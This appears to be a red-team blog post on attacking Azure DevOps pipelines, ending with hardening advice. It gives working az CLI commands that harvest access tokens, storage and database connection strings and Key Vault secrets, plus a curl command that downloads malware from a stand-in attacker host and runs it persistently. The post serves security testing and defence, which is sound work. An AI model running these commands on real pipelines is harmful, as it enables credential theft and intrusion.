

### Introduction

In the ever-evolving realm of cloud services, organisations are ditching the headaches of physical infrastructure management and diving headfirst into the possibilities of cloud platforms. From the humble beginnings of deploying virtual machines and servers, we now find ourselves in a dynamic space with everything from serverless architectures to cloud-based active directories, seamless SaaS integrations, architectural blueprints, collaboration tools, AI assistants, and more.

However, one core business service has been housed in the cloud longer than most: Continuous Integration / Continuous Deployment (CI/CD). The reasons are clear: there is no better use case for high availability containerised and serverless operations than a CI/CD pipeline.

From a red teamer's perspective CI/CD pipelines are also extremely valuable targets as they often underpin the production code base that, in most cases, underpins the organisation's core business function itself. As such, many of the cloud-native red team engagements that we deliver will focus on the compromise of the CI/CD as one of the engagement objectives.

This blog summarises some of our thinking with regards to compromising DevOps pipelines on your red team engagements. For now we will be focusing on Azure DevOps due to the fact that historically the majority of our work has been in Azure environments, but we are seeing more and more AWS and GCP estates now too so we may release future versions of this. That being said, the philosophy behind compromising CI/CD and attack scenarios mentioned in this article are common across the board.

### Azure DevWho?

Azure DevOps is a Microsoft toolkit running in the cloud, aimed at streamlining the process of creating software using a CI/CD model. It bundles services for tracking work, managing code, automating builds and tests, and sharing software packages. But more importantly, **it runs user-defined code**.

### Initial Foothold

Once a foothold in the cloud tenant has been established via phishing, compromising an external application or assumed breach, the standard cyber kill-chain can be followed to enumerate services, move laterally, escalate privileges and mine data.



Using tools like Road Tools, AzureHound, msportals.io and the Azure CLI you may begin the discovery process to identify what services are in use. Crucially, keep your eyes open for DevOps services.


You may find that in some cases that permissions to Azure DevOps are not as locked down as you might expect. This is ultimately due to how complex granular IAM permissions can become in larger cloud estates. For example, we have found lower privileged users had write permissions to certain non-production pipelines despite not being in technical roles.

### But…Least Privilege?

Although not part of their day-to-day tasks, users that are not strictly developers may still present no restrictions in modifying, creating, deploying and executing code within the Azure DevOps pipeline. This behaviour is often not intentional but the result of overlooked permission assignments. In fact, over privileged IAM assignments is something that we regularly see in cloud environments due to the sheer number of IAM roles available. Critical permissions such as these are often overlooked, leading to users having the capability to read historical code commits, sometimes going back a few years! These can be a treasure trove for us red teamers as security may have been less of a priority back then and you may be more likely to find hardcoded credentials in older code.

If you find yourself having successfully phished a member of staff that has access to Azure DevOps, review the permissions that users have to DevOps services offered by Azure. Your first thoughts at this stage should be to check whether you can:

- edit repositories
- read history of commits (a treasure trove, believe me) or previously pushed code repositories
- enumerate other Azure services the organisation is using
- steal service accounts or managed identities associated with the DevOps service
- possibly introduce malware to the pipeline to enable more lateral movement and privilege escalation techniques

### Pipeline Runners

Code checking agents are regularly used in CI/CD pipelines as part of the build process to ensure that the supplied code is running correctly and works as intended. They are compute resources with agent software installed that run tests on your code. They ensure that the infrastructure, resources, and dependencies required to run your code are present. Crucially, they can be seen as ephemeral virtual machines from the attacker perspective.

If you find yourself in a position where you can push code to a pipeline, you are now in a position to poison it. Remember, pipeline running agents execute arbitrary _user-supplied code._ That smells like RCE to me! Note, pushing arbitrary code to operational pipelines is not the play here. Instead, try to create your own branch or look for test branches. Always clear this with the client before proceeding! It’s important that we stress this point because at this stage you will need to proceed with extra caution as you may be interfering with production services. So please, if you are on an engagement, ensure you gain the right authorisation from the target organisation before proceeding with creating branches or applying changes to the pipeline environment.

> ⚠️  _always ensure you gain the right authorisation from the target organisation before proceeding with creating branches or applying changes to the pipeline environment_

Where you go from here is limited only by your creativity. In our case, we use these RCEs to reach out to attacker-controlled infrastructure and pull down a C2 implant suitable for the target architecture. As a bonus, these machines rarely have security products on them as they are ephemeral by nature (we’ll get to how to maintain persistent access to these machines later)

Now this may start to feel more like a traditional red team, but unlike a traditional red team your focus should be on compromising the identity of that agent. That is to say, you can try to steal the pipeline agent’s identity used by Azure, or any other cloud provider for that matter. These will often have service principal identities associated with them in Azure to perform actions.

Some options with regards to stealing the tokens include:

- Requesting the tokens using az cli (from the perspective of the code agent).
- Metadata service
- Environment variables

The above can be achieved by either entering the code in the code commit or by obtaining a reverse shell from the ephemeral virtual environment used by the code running agent.

Having now compromised that service principal, it should be easy to review whether they have read/write permissions over other services in Azure resource manager (ARM).

To summarise, if you can write to the repository code that is run by the code running agents, you can leverage the agent’s service principal identity to enumerate resources within the Azure environment as them, and mostly undetected.

If this works, it would effectively mean pivoting from your initial Azure user identity to a service principal identity for lateral movement.

Now what do you do? Well, below we will explore different options here such as automating the process of discovering assets like storage accounts, keyvaults, CosmosDB databases, and so on.

### The path to El-Dorado

Having now compromised the identity associated with a code checking agent you can start looking for ways to escalate privileges, move laterally or demonstrate business impact. My favourite approach would be to steal credentials and connection strings to find a route to more business critical environments.

In previous engagements we have used this to retrieve:

- Access and Refresh Tokens.
- Environmental variables belonging to the code build running agent.
- Storage Account connection strings.
- CosmosDB and Mongo databases and their connection strings.
- Keyvaults and the secrets they stored.

Wondering what this might look like in real terms? The following are some code examples:

- Enumerate the service principal account and fetch tokens.

```
az account list
echo "----Collecting Tokens-----"
echo token
az account get-access-token
echo aadgraphtoken
az account get-access-token --resource-type aad-graph
echo armtoken
az account get-access-token --resource-type arm
echo batchtoken
az account get-access-token --resource-type batch
echo datalake token
az account get-access-token --resource-type data-lake
echo ms-graphtoken
az account get-access-token --resource-type ms-graph
```

And the above list can continue with pretty much any Azure cloud enumeration command you can think of afterwards…obviously, you can also install new tools and execute them in this context.

- Iterate through resources to fetch their connection strings to be used with Azure Storage Explorer or Azure Data Studio.
    

```
# Ensure you install jq with sudo apt install jq -y
# Find storage accounts
az storage account list | jq ".[].name" | awk "{print $1}" | xargs -I % sh -c "{ az storage account show-connection-string -n %; sleep 7;}" | jq ".connectionString"

#Find cosmosdb
az cosmosdb list | jq ".[].name" | awk "{print $1}" | xargs -I % sh -c "{ az cosmosdb list-connection-strings -n % --resource-group ; sleep 7;}" | jq ".connectionString"
```

- Enumerate and fetch secrets from keyvaults.

```
# Show secrets names
az keyvault secret list --include-managed --vault-name "vault-name" --maxresults 25

# Show secrets'secret values :)
az keyvault secret show --vault-name vault-name --name "secrets-name" | jq '.value' | tr -d '"'
```

- Download and execute malware, and sleep indefinitely to ensure the beacon is not killed. This is how you can maintain persistent access to an otherwise ephemeral box.
    

```
# Fetch the payload from attackerinfra.com
curl -k -X $'GET' \
-H $'Host: attackerinfra.com' -H $'Sec-Ch-Ua: \
"Not A(Brand\";v=\"24\", \"Chromium\";v=\"110\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'Upgrade-Insecure-Requests: 1' [...] -H $'Connection: close' \
$'https://attackerinfra.com/MailDriverIntegration' > /home/agentuser/MailDriverIntegration

# Execute the malware
chmod +x /home/agentuser/MailDriverIntegration
sudo /home/agentuser/MailDriverIntegration & disown

# Sleep indefinitely
while [ 1 ]; do sleep 3; echo "test"; done;

```

In the past, these commands and techniques have given us unfettered access to a plethora of information and data. At times, this was sensitive business data that could demonstrate that damage could be done even with non-dev accounts in the cloud, which are usually less protected for ease of access. Clearly, this is a reason to extend security best practices to all the departments in an organisation.

### The man in the high castle

By now you should hopefully have a decent amount of data, tokens and files to sift through (if not make sure you’ve looked through all accessible storage accounts). Some of the most juicy files you may find in DevOps environments are .tf files. These may be more common than you might expect as DevOps engineers and developers often make use of Terraform and Infrastructure as Code (IaC). If you come across these in your cloud red teaming engagement, you may have hit the jackpot.

For those not familiar with these files, they contain the configuration and state information for infrastructure managed by Terraform, a popular infrastructure as code (IaC) tool, often used in DevOps. Terraform uses these state files to keep track of the infrastructure it manages, ensuring that it can update or delete resources automatically. This data is crucial as it includes sensitive information such as configuration details, encryption keys, API keys, and possibly credentials that are needed to manage the infrastructure components.

Essentially, these files are a blueprint of the entire infrastructure's architecture and contain all the necessary details to replicate or manipulate the environment. The exploration of such cloud storage can lead to the retrieval of service account credentials used to push code  to sometimes critical environments (i.e. **_production_**).

Once you are able to steal a higher privileged set of credentials (double points if it was a service principal), you can consider re-running the same techniques as mentioned before to access new and more critical assets.

Leveraging the above techniques in client environments we have succeeded in completing attack paths that have led from non-technical staff being able to move laterally and escalate privileges all the way to being able to push code to the production CI/CD pipeline! This would effectively represent a significant vantage point and positioning for a malicious actor, who can carry out disruptive attacks that may halt business operations, deny services to employees and customers, exfiltrate valuable intellectual property and possibly wipe off or alter any data in Azure for extortion purposes.

### Lessons learned

The fascinating exploration of the cloud world and its wonders serves as a reminder to us all of the necessity of striking a balance between the convenience of cloud adoption and the critical need for robust security practices. Some observations and takeaways stemming from our experience are:

- If possible, restrict commit history and code deployment logs read access to administrators only when using Azure DevOps.
    
- Limit code access in your pipeline to authorised devs only, who can read, write, pull, and push. Keeping an eye on access roles, especially for project manager accounts or non-techie accounts (usually lacking MFA, and generally less protected than devs’ accounts), is crucial for maintaining operational integrity and preventing abuses.
    
- Implement granular firewall and access control rules (RBAC) at the resource group level to:
    
    - enforce strict separation of the SDLC environments.
        
    - restrict access to resources (storage accounts, key vaults, and databases) to only authorised users, machines and/or IP addresses.
        
- Protect your _tfstate_ files as if they were passwords! Credentials and connection strings can easily lay in there!
    
- Review if service principals are adhering to the policy of least privileged access, even for seemingly benign ephemeral code checking agents.
    
- Always consider defence-in-depth and integrating security to your DevOps processes and environments.
    

If you got here, thank you for reading and I hope this inspired you to look after your cloud DevOps environment a bit more thoroughly! :)
